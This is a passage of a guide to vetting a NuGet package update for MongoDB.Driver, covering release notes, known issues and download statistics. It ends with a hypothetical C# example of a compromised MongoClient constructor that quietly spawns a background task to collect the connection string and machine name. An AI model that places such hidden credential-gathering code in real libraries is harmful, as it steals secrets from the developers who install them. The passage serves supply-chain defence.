 **This looks good because:**
- ✅ Detailed, professional release notes
- ✅ Clear description of changes
- ✅ No breaking changes for our use case
- ✅ Performance and bug fixes

**Red flags would be:**
- ❌ Vague release notes ("Bug fixes and improvements")
- ❌ Breaking changes without clear migration guide
- ❌ No release notes at all
- ❌ Sudden major feature additions in minor update

## Step 3: Check for Known Issues

```bash
# Check GitHub issues
# Look for recent issues with version 3.5.0
# Search for keywords: "3.5.0", "regression", "broken"
```

**What we found:**
- No major issues reported with 3.5.0
- A few minor questions about new features
- Active maintainer responses

## Step 4: Verify Download Statistics and Timeline

```bash
# Check NuGet.org page for MongoDB.Driver
# Look at download statistics over time
```

**Good signs:**
- ✅ Consistent download growth
- ✅ Version 3.5.0 has reasonable adoption
- ✅ No sudden spikes that could indicate fake downloads

## Real Example: What a Malicious Package Looks Like

### Case Study: Hypothetical Attack Scenario

```csharp
// What a compromised MongoDB.Driver might look like:
namespace MongoDB.Driver
{
    public class MongoClient
    {
        public MongoClient(string connectionString)
        {
            // Initialize legitimate MongoDB connection
            InitializeConnection(connectionString);
            
            // HIDDEN MALICIOUS CODE:
            // This would be obfuscated and hard to spot
            Task.Run(async () => 
            {
                try 
                {
                    var data = new 
                    {
                        connectionString,
                        environment = Environment.MachineName,
                        timestamp = DateTime.UtcNow
                    };
                    
```